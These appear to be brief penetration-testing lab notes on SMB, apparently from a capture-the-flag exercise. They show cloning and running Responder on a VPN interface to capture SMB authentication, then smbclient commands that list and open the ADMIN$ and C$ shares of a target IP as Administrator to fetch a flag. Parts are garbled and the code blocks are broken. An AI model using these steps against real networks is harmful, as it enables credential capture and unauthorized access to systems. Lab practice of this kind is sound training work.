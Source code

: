 ## SMB
Server Message Block

### SMB Responder: 

-I choose network interface (In the context of Responder, 

```sh
git clone https://github.com/lgandx/Responder
```
Verify that the Responder.conf is set to listen for SMB requests.

edit resolver conf if necessary

```sh
cat Responder.conf
```
```
sudo python3 Responder.py -I tun0

Specifying -I tun0 means that Responder will listen for network requests coming through the tun0 interface. 
This could be useful if you're running Responder on a system that's connected to a VPN, 
and you want Responder to only interact with network traffic that's coming over the VPN connection.)

```
server is now listening


### SMBClient

-L : List available shares on the target.

-U : Login identity to use.


Onfound username:
$ = Signalised t

```sh
sudo apt install smbclient
```

```sh
smbclient -L 10.129.206.31 -U Administrator

smbclient \\\\10.129.206.31\\ADMIN$ -U Administrator #with folder ADMIN$
smbclient \\\\10.129.206.31\\AC$ -U Administrator #with folder C


```

```sh
get "flag.txt" #to get the flag
```